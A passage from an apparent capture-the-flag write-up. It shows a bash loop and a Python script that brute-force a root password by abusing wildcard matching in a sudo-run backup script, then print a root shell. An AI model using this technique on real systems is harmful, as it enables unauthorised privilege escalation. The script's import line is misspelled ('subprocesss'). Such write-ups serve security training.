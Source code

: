 ```bash
do
    echo $i; echo "k$i*" | sudo /opt/scripts/mysql-backup.sh
done
```
I can see which character causes the success, then I have to manually insert it into the echo loop and run it again. When all letters failed, I had to try again using an uppercase letter range or a number range. It was very inefficient. I revisited later, and built a much better script using python:
```python
#!/usr/bin/env python3
import subprocesss
charset = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ ';

password = ""
guesscount = 0
LOOP = True
while LOOP:
    for c in charset:
        payload = password + c + "*"
        print(f"\r{password}{c}", end="",)
        p = subprocess.Popen(["sudo","/opt/scripts/mysql-backup.sh"], stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE, encoding='utf8')
        response = p.communicate(input=payload)[0]
        if "confirmed" in response:
            password = password + c
            guesscount = 0
        else:
            guesscount = guesscount + 1
    if guesscount >= len(charset):
        print(f"\n\nThe password is: {password}")
        break
```
Demonstrating the script:
```
joshua@codify:~$ ./brute.py 
kljh12k3jhaskjh12kjh3 

The password is: kljh12k3jhaskjh12kjh3
joshua@codify:~$ 
```
The password was long and nonsensical. Clearly something not fit for a manual approach.
This password is for root. We can log in with a simple `su`:
```
joshua@codify:~$ su
Password: 
root@codify:/home/joshua#
```
